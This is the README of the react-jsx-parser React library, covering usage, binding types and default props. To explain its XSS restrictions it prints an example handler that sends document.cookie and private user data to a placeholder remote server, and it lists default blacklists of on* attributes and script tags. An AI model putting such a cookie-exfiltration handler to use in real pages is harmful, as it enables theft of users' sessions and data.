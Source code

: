 # react-jsx-parser [![CircleCI][circle-ci-badge]](https://circleci.com/gh/TroyAlford/react-jsx-parser) [![Version][npm-version]][npm-link] [![NPM Downloads][npm-downloads]][npm-link] [![License][npm-license]](https://github.com/TroyAlford/react-jsx-parser/blob/master/LICENSE)

[circle-ci-badge]: https://img.shields.io/circleci/project/github/TroyAlford/react-jsx-parser/master.svg
[npm-version]: https://img.shields.io/npm/v/react-jsx-parser.svg
[npm-downloads]: https://img.shields.io/npm/dt/react-jsx-parser.svg
[npm-license]: https://img.shields.io/npm/l/react-jsx-parser.svg
[npm-link]: https://www.npmjs.com/package/react-jsx-parser

A React component which can parse JSX and output rendered React Components.

## Basic Usage - Injecting JSX as a String
```javascript
import React from 'react'
import JsxParser from 'react-jsx-parser'
import Library from 'some-library-of-components'

class InjectableComponent extends Component {
  static defaultProps = {
    eventHandler: () => {}
  }
  // ... inner workings of InjectableComponent
}

const MyComponent = () => (
  <JsxParser
    bindings={{
      foo: 'bar',
      myEventHandler: () => { /* ... do stuff ... */ },
    }}
    components={{ InjectableComponent, Library }}
    jsx={`
      <h1>Header</h1>
      <InjectableComponent eventHandler={myEventHandler} truthyProp />
      <Library.SomeComponent someProp={foo} calc={1 + 1} stringProp="foo" />
    `}
  />
)
```

Because `InjectableComponent` is passed into the `JsxParser.props.components` prop, it is treated as a known element
type, and created using `React.createElement(...)` when parsed out of the JSX. You can also pass in a whole collection
of components, as shown by the `Library` binding, and then access the individual items with `LibraryName.ComponentName`.

Finally, a note about property bindings. The `JsxParser` can handle several types of binding:
 - implicit `true` bindings, such as `<InjectableComponent truthyProp />` (equivalent to `truthyProp={true}`)
 - string-value binding, such as `stringProp="foo"`
 - expression-binding, such as `calc={1 + 1}`
 - named-value binding, such as `eventHandler={myEventHandler}` (note that this requires a match in `bindings`)

The component **_does not_** support inline function declarations, such as:
 - `onClick={function (event) { /* do stuff */ }}`, or
 - `onKeyPress={event => { /* do stuff */}}`

The component **_does_** support inline arrow functions with a simple statement, such as: 
 - `{ [1,2].map( value => <span>{value}</span> ) }`

This is to prevent inadvertent XSS attack vectors. Since the primary use of this component is to allow JSX to be stored server-side, and then late-interpreted at the client-side, this restriction prevents a malicious user from stealing info by executing a situation like:
```javascript
<JsxParser
  bindings={{ userInfo: { private: 'data' } }}
  onClick={() => {
    fetch('/some/remote/server', {
      body: JSON.stringify({ cookies: document.cookie, userInfo })
    })
  }}
/>
```

## Advanced Usage - Injecting Dynamic JSX
```javascript
// Import desired set of components
import { ComponentA, ComponentB } from 'somePackage/Components'
import ComponentC from 'somePackage/ComponentC'
import ComponentD from 'somePackage/ComponentD'
...
// Load an HTML or XML fragment from a remote API
const dynamicHtml = loadRemoteData()
...
// Within your component's render method, bind these components and the fragment as props
<JsxParser
  bindings={bindings}
  components={{ ComponentA, ComponentB, ComponentC, ComponentD }}
  jsx={dynamicHtml}
/>
```

Any `ComponentA`, `ComponentB`, `ComponentC` or `ComponentD` tags in the dynamically loaded XML/HTML fragment will be rendered as React components. Any unrecognized tags will be handled by `React`.

_Note:_ Non-standard tags may throw errors and warnings, but will typically be rendered in a reasonable way.

## PropTypes / Settings
```javascript
JsxParser.defaultProps = {
  // if false, unrecognized elements like <foo> are omitted and reported via onError
  allowUnknownElements: true, // by default, allow unrecognized elements

  bindings: {}, // by default, do not add any additional bindings

  // by default, just removes `on*` attributes (onClick, onChange, etc.)
  // values are used as a regex to match property names
  blacklistedAttrs: [/^on.+/i],

  // by default, removes all <script> tags
  blacklistedTags:  ['script'],

  // an object map of component tag-names to their definitions - see above for examples
  // components must extend React.Component, React.PureComponent, or be a Function
  components: {},

  componentsOnly: false, // non-component HTML tags are allowed by default, omitted if true

  disableFragments: false, // if true, React <Fragment />s will not be used.
  // Note: This introduces subtle errors with regard to white-space, and is provided only for
  // backward compatibility with React 15.x

  disableKeyGeneration: false, // if true, rendering will not automatically generate `key` props.
  // Note: This may result in the "Child elements should have a unique 'key' prop " React error.

  jsx: '', // the jsx string to be parsed & rendered

  onError: () => {}, // if specified, any rendering errors are reported via this method

  showWarnings: false, // if true showWarnings, rendering errors are output with console.warn

  renderError: undefined, // if specified, this function can be used to render errors as a fallback

  renderInWrapper: true, // if false, the HTML output will have no <div> wrapper
}
```
